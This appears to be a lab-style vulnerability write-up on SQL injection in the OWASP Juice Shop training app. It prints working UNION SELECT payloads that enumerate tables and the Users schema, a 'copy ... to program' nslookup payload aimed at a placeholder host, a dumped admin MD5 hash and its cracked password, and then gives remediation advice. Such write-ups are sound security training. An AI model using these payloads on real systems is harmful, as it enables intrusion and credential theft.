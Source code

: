 # 1 - SQL Injection in Product Search
**Category:** A03 – Injection

---
## Overview
During testing of the product search functionality in OWASP Juice Shop, a **SQL Injection vulnerability** was discovered.  
The application fails to properly sanitize user input before embedding it into SQL queries, allowing attackers to manipulate the query logic and extract sensitive data from the underlying SQLite database.

---
## Proof of Concept

### Vulnerable Query Construction
```sql
SELECT * FROM Products 
WHERE (
  (name LIKE '% %' 
   OR description LIKE '%'copy (SELECT '') to program 'nslookup http://0.0.0.0:8000/' %')
  AND deletedAt IS NULL
) 
ORDER BY name;
```
This payload modified the SQL logic, demonstrating injection.

### Database Enumeration (tables)
```sql
%')) UNION SELECT 1, '', '', 0, 0, '', '', '', name
FROM sqlite_master
WHERE type='table'
LIMIT 1 OFFSET 0 -- 
```

**Tables discovered:**
- Addresses  
- BasketItems  
- Baskets  
- Captchas  
- Cards  
- Challenges  
- Complaints  
- Deliveries  
- Feedbacks  
- ImageCaptchas  
- Memories  
- PrivacyRequests  
- Products  
- Quantities  
- Recycles  
- SecurityAnswers  
- SecurityQuestions  
- Users  
- Wallets  
- sqlite_sequence

### Users Table Schema (extracted)
```sql
%')) UNION SELECT 1, '', '', 0, 0, '', '', '', sql
FROM sqlite_master
WHERE tbl_name = 'Users' AND type = 'table'
LIMIT 1 OFFSET 0; -- 
```

**Schema fields identified:**
- `id` — INTEGER, primary key  
- `username` — VARCHAR(255)  
- `email` — VARCHAR(255), unique  
- `password` — VARCHAR(255)  
- `role` — VARCHAR(255)  
- `deluxeToken` — VARCHAR(255)  
- `lastLoginIp` — VARCHAR(255)  
- `profileImage` — VARCHAR(255)  
- `totpSecret` — VARCHAR(255)  
- `isActive` — TINYINT(1)  
- `createdAt` — DATETIME (NOT NULL)  
- `updatedAt` — DATETIME (NOT NULL)  
- `deletedAt` — DATETIME (NULL)

### Sensitive Data Disclosure (example response)
```json
{
  "id": 1,
  "name": "admin@juice-sh.op",
  "description": "0192023a7bbd73250516f069df18b500",
  "price": 0,
  "deluxePrice": 0
}
```

This hash is an MD5 Hash, and the unhashed password was found at https://crackstation.net/ 

![Pasted image 20250810150612](/images/Pasted%20image%2020250810150612.png)

**Recovered credential (hash cracked):**
```
admin@juice-sh.op : admin123
```

### SecurityAnswers Table (structure)
- `UserId` — INTEGER, UNIQUE, references `Users(id)`, ON DELETE NO ACTION, ON UPDATE CASCADE  
- `SecurityQuestionId` — INTEGER, references `SecurityQuestions(id)`, ON DELETE NO ACTION, ON UPDATE CASCADE  
- `id` — INTEGER, PRIMARY KEY, AUTOINCREMENT  
- `answer` — VARCHAR(255)  
- `createdAt` — DATETIME, NOT NULL  
- `updatedAt` — DATETIME, NOT NULL

---

## Impact
- **Authentication bypass:** Admin account compromised via recovered password.  
- **Data breach:** Disclosure of usernames, emails, and password hashes.  
- **Lateral movement:** Access to additional sensitive tables (e.g., security answers).  
- **Potential RCE:** Use of `copy ... to program`-style payloads indicates risk if backend/DB integrations are misconfigured.

**Severity:** Critical (CVSS high/critical range)

---

## Recommendations
1. **Use parameterized queries / prepared statements** everywhere user input touches SQL.  
2. **Input validation/allowlisting** for search parameters (reject control characters, quotes, SQL metacharacters).  
3. **Harden credential storage:** Replace MD5 with a Hashing algorithm and per-user salts.  
4. **Least-privilege DB account:** Restrict access to schema tables (`sqlite_master`) and unnecessary permissions.  
5. **Error handling:** Return generic errors; avoid leaking SQL/stack details.  
6. **Defense-in-depth:** Web Application Firewall (WAF) rules for common SQLi patterns; monitoring/alerting on anomalies.  
